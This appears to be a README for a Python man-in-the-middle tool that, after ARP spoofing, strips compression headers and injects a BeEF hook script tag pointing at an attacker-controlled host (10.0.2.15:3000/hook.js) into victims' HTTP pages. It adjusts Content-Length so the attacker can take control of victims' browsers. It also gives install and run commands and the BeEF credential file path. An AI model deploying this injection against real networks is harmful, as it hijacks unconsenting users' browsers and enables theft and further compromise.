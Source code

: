 # Web hooking
After establishing MITM connection (e.g. using ARP spoofing), looking at all the HTTP requests, the program removes HTTP <code>Accept-Encoding</code> header so the response HTML load will not be encrypted. The program inserts the javascript code, <code><script src="http://10.0.2.15:3000/hook.js"></script></code>, in the HTML load of the HTTP response as a script. The addition of the lines of code are performed by replacing <code></body></code>. The specified IP address is the one of the machine that runs the program or some remote machine whom you have control. Then the program modifies the <code>Content-Length</code> value w.r.t. performed HTML changes. After this phase, you can use BeEf, to insert code or manage actions on remote victim browser. BeEF is a framework that works using javascript code so it can work on every possible browser that supports javascript language (all browsers nowadays).<br>
To use this Interceptor, you need to install the following modules for python3, through this command:
<pre lang="bash"><code>apt install beef-xss build-essential python3 libnetfilter-queue-dev</code></pre>
```bash
pip3 install argparse termcolor netfilterqueue re scapy
```
or<br>
```bash
pip3 install -r requirements.txt
```
To run the program, you need to type for example this command on bash:
<pre lang="bash"><code>python3 hook_method.py</code></pre>
To check which parameters you can insert, you can type the command:
<pre lang="bash"><code>python3 hook_method.py --help </code></pre>
The program must run with superuser privileges and can work only on HTTP web pages.
For management of BeEF credentials, you can manage the file:
<pre lang="bash"><code>/usr/share/beef-xss/config.yaml</code></pre>
